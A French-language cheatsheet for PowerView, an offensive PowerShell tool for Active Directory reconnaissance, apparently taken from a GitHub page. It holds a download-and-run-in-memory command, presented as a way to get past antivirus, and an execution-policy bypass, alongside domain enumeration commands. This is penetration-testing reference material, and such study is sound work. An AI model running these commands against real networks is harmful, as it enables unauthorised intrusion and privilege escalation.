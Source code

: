 # PowerView Cheatsheet (Améliorée et Complétée)

**Objectif :** PowerView est un module PowerShell faisant partie de la suite PowerSploit. Il est spécialisé dans l'énumération et l'exploitation d'environnements Active Directory (AD). Il permet de cartographier le domaine, trouver des utilisateurs, groupes, ordinateurs, GPOs, ACLs, et identifier des chemins potentiels d'escalade de privilèges ou de mouvement latéral.

**Source :** [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

---

### 🚀 **Chargement de PowerView**

* **Méthode 1 : Fichier local**
  ```powershell
  # Naviguer vers le dossier contenant PowerView.ps1
  Import-Module .\PowerView.ps1
  ```
* **Méthode 2 : Téléchargement et exécution en mémoire (bypass)**
  ```powershell
  # Attention : Peut être détecté par les antivirus/EDR
  IEX (New-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)')
  ```

> \[!Attention]
> L'exécution de scripts PowerShell peut être restreinte par la politique d'exécution (`ExecutionPolicy`). Utilisez `Set-ExecutionPolicy Bypass -Scope Process` pour la contourner temporairement dans la session courante (si autorisé).

---

### 🔍 **Exploration du Domaine et de la Forêt**

#### Informations sur le domaine actuel

```powershell
Get-NetDomain
```

* **Contexte :** Récupère les informations de base sur le domaine AD auquel la machine actuelle est jointe (nom, SID, contrôleurs de domaine, niveau fonctionnel...).
* **Usage :** Point de départ pour comprendre l'environnement AD actuel.

#### Informations sur un domaine spécifique

```powershell
Get-NetDomain -Domain <nom_domaine>
```

* **Contexte :** Interroge un autre domaine (accessible via une relation de confiance ou si un DC est spécifié).
* **Usage :** Énumération de domaines dans une forêt ou des domaines approuvés.
